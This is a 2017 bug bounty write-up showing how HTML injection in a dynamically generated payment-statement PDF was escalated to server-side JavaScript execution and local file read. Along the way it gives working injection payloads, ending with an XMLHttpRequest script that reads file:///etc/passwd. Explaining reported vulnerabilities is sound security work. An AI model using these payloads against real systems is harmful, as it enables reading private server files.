 ```yaml
---
title: "Local File Read via XSS in Dynamically Generated PDF"
date: Wed, 08 Nov 2017 10:05:00 +0000
draft: false
type: posts
categories: 
- 
---
```

# Local File Read via XSS in Dynamically Generated PDF

<br/>

<br/>
REDIRECTING TO THE NEW BLOG ...
===============================

setTimeout(()=> location="https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/",3000); Hello Hunters,  
                        This time I am writing about a Vulnerability found in another private program(xyz.com) on Bugcrowd which at first I thought wasn't much harmful(P4) but later escalated it to a P1.  
  
While browsing the Application I came across an endpoint which allowed us to download some kind of Payment Statements as PDF.  
  
The URL looked like this  
  
https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=xyz&date=2017-08-11&settlement\_type=all&advice\_id=undefined  
  
I saw that the Value of utr number is reflected inside the PDF file that got downloaded so I wrote some HTML in **utrnumber** parameter as **"><S>aaa**   
  
https://xyz.com/payments/downloadStatements?Id=b9bc3d&**utrnumber**\=**"><S>aaa** &date=2017-08-11&settlement\_type=all&advice\_id=undefined  
  
Upon opening this PDF I found that the HTML was rendered and could be seen in PDF. This kind of vulnerability usually leads to XSS but this time it was inside a PDF which was being generated dynamically.  
If you want to learn more about XSS then I advise to checkout this great intro on XSS: [https://www.aptive.co.uk/blog/xss-cross-site-scripting/](https://www.aptive.co.uk/blog/xss-cross-site-scripting/)  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh7VodlIxskfhxs_IAhV5gn-pKxLSR8ExxXjeCIKQKBuXBJz7rBE-8VVVhq-2C0xTrUyifVnznfyaRkXYtIaYx62sPPSpRbcklCXmOBczGIzAAqIkJybxBTle-4GIzY2JQLchOts8xNCA5J/s1600/Screenshot+from+2017-11-08+14-29-18.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh7VodlIxskfhxs_IAhV5gn-pKxLSR8ExxXjeCIKQKBuXBJz7rBE-8VVVhq-2C0xTrUyifVnznfyaRkXYtIaYx62sPPSpRbcklCXmOBczGIzAAqIkJybxBTle-4GIzY2JQLchOts8xNCA5J/s1600/Screenshot+from+2017-11-08+14-29-18.png)

  
I tried if I could use an iframe and load internal domains in the frame or if I could iframe file:///etc/passwd but none of the tricks worked! also, I wasn't able to iframe external domains.  
  
https://xyz.com/payments/downloadStatements?Id=b9bc3d&**utrnumber**\=**"><iframe src="http://localhost"></iframe>**&date=2017-08-11&settlement\_type=all&advice\_id=undefined  

  

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiuNWfSvkfbvBSlBILzgxMI5sHeUyrQiZh8mGb6SIw5iItdOVJ-KjuipTKE57T9SpHpA2MIh9avSs0qQTCBBuMLoG1mGWHnCOTLBtGQ-Krus4X5pm2c6oMRXi1UnfFVKUJzzpsBgvWYc2zd/s1600/Screenshot+from+2017-11-08+14-33-13.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiuNWfSvkfbvBSlBILzgxMI5sHeUyrQiZh8mGb6SIw5iItdOVJ-KjuipTKE57T9SpHpA2MIh9avSs0qQTCBBuMLoG1mGWHnCOTLBtGQ-Krus4X5pm2c6oMRXi1UnfFVKUJzzpsBgvWYc2zd/s1600/Screenshot+from+2017-11-08+14-33-13.png)

But, from now I didn't know if I could go further because I wasn't sure if javascript could be executed like this in PDF.So after playing around a lot I found that we could execute javascript with the help of DOM Manipulation  
  
**<p id="test">aa</p><script>document.getElementById('test').innerHTML+='aa'</script>**   
  
https://xyz.com/payments/downloadStatements?Id=b9bc3d&**utrnumber**\=**<p id="test">aa</p><script>document.getElementById('test').innerHTML+='aa'</script>**&date=2017-08-11&settlement\_type=all&advice\_id=undefined  

  

and Upon downloading PDF I found that it contained the "aaaa" :D  
  
also sometime later, I found that I could also use document.write() function to show results more easily.  
  
**<img src=x onerror=document.write('aaaa')>**  

  

https://xyz.com/payments/downloadStatements?Id=b9bc3d&**utrnumber**\=**<img src=x onerror=document.write('aaaa')>**&date=2017-08-11&settlement\_type=all&advice\_id=undefined  

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEim44RscquFzQ42O3Pu-qD2c2PRYlkaxKLUteTDklwTHsoKzwAhJu18nNCXQfzj7cYveS4cMqN47JjHHoeOZL3vyEnZmwLTXpcru5121pEM3SrIBK77mhmzPOcT2xUZeEiz6b-fdXRFN7UI/s1600/Screenshot+from+2017-11-08+14-53-58.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEim44RscquFzQ42O3Pu-qD2c2PRYlkaxKLUteTDklwTHsoKzwAhJu18nNCXQfzj7cYveS4cMqN47JjHHoeOZL3vyEnZmwLTXpcru5121pEM3SrIBK77mhmzPOcT2xUZeEiz6b-fdXRFN7UI/s1600/Screenshot+from+2017-11-08+14-53-58.png)

after this I checked the **window.location** of where this javascript is executed and to my surprise it was executing in file:// origin on the Server

  

https://xyz.com/payments/downloadStatements?Id=b9bc3d&**utrnumber**\=**<img src=x onerror=document.write('aaaa'%2bwindow.location)>**&date=2017-08-11&settlement\_type=all&advice\_id=undefined

  

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjdgXFqIsuqvFETJdLVMTGvdW2Ae7qyHkIgzh8AkUXoz5EX2jH8PH46Vt-Q_URKUabl9w5VUTFfnEcH_3NvsUqmTd1dNybbhE2ycw2jrz8BX_vgMiwphp3cIBEBj-5wZGndK-BHkqMxYht7/s1600/Screenshot+from+2017-11-08+14-56-39.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjdgXFqIsuqvFETJdLVMTGvdW2Ae7qyHkIgzh8AkUXoz5EX2jH8PH46Vt-Q_URKUabl9w5VUTFfnEcH_3NvsUqmTd1dNybbhE2ycw2jrz8BX_vgMiwphp3cIBEBj-5wZGndK-BHkqMxYht7/s1600/Screenshot+from+2017-11-08+14-56-39.png)

Now since its executing on file://, I tried if we could access file:///etc/passwd via XHR(XMLHttpRequest), I wasn't sure myself.

  

**<script>**

**x=new XMLHttpRequest;**

**x.onload=function(){**

**document.write(this.responseText)**

**};**

**x.open("GET","file:///etc/passwd");**

**x.send();**

**</script>** 

  

  

https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=**<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>**&date=2017-08-11&settlement\_type=all&advice\_id=undefined  
  
and then you know ;) 

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEizhZcBvjXYUtvbYRfQ7S8Z2-mBLePc5wReLYaeeqLc_wv_PthCBSZQpdEG5j5vnl5d1SiFfEagzkBtgGGN8lLD1PKigFInjQN334AcwIQCk2kPYX7xfoO-LXuS9oqjmyzl2OOZxOs5wvHc/s1600/Screenshot+from+2017-11-08+15-01-54.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEizhZcBvjXYUtvbYRfQ7S8Z2-mBLePc5wReLYaeeqLc_wv_PthCBSZQpdEG5j5vnl5d1SiFfEagzkBtgGGN8lLD1PKigFInjQN334AcwIQCk2kPYX7xfoO-LXuS9oqjmyzl2OOZxOs5wvHc/s1600/Screenshot+from+2017-11-08+15-01-54.png)

  

  

so That was it, XSS in Server Side Generated PDFs to Local File Read! 

  

However, it took :P me some time to figure this You could see the number of PDFs I had to download: 

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjIllxqtZL1f9TrM-Wct_7gkMpaxKf9-T8IeagitPih44yuMuNdx9xhqhkJV2uRcn-4lcKz0vYu135lgGsIjjq7bGbzOGSV3WuKbPDjBwDlOqVznL9JNuu4aogmz09DBxMopkD7QU4knJ6T/s1600/Screenshot+from+2017-11-08+15-03-53.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjIllxqtZL1f9TrM-Wct_7gkMpaxKf9-T8IeagitPih44yuMuNdx9xhqhkJV2uRcn-4lcKz0vYu135lgGsIjjq7bGbzOGSV3WuKbPDjBwDlOqVznL9JNuu4aogmz09DBxMopkD7QU4knJ6T/s1600/Screenshot+from+2017-11-08+15-03-53.png)

  

  

  

./peace  
Rahul Maini

#### [Source](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

<br/>
---
